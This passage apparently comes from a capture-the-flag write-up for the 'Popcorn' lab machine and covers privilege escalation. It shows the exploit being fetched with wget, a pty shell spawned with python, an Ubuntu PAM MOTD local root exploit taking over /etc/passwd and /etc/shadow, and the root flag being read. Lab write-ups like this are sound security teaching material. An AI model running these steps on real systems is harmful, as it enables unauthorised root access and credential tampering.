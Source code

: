 ```bash
-rw-r--r-- 1 george george    0 Mar 17  2017 motd.legal-displayed
```

On doing a liitle google search I found this [exploit](https://www.exploit-db.com/exploits/14339).

I copied the exploit on my machine and started a http server using python. Then I used wget to transfer the file on to the target machine.

```bash
www-data@popcorn:/dev/shm$ ./exploit.sh
./exploit.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
su: must be run from a terminal
```

We can solve this error by spawning a python shell.

```bash
www-data@popcorn:/dev/shm$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@popcorn:/dev/shm$ ./exploit.sh
./exploit.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@popcorn:/dev/shm# cd /root
cd /root
root@popcorn:~# ls
ls
root.txt
root@popcorn:~# cat root.txt
cat root.txt
b1860b0f97fb18a8dd42b95c97b62919
```